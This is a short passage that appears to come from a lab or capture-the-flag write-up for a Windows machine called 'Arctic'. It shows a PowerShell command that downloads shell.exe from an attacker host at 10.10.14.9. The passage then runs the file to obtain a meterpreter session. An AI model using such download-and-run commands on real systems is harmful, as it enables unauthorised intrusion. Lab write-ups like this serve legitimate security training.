 ```sh
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.9:8000/shell.exe','shell.exe')"
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/exploitdownload.png)

from the python server we see that it has uploaded the shell

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/pyhonserver.png)

so we run the shell.exe to get the meterpreter
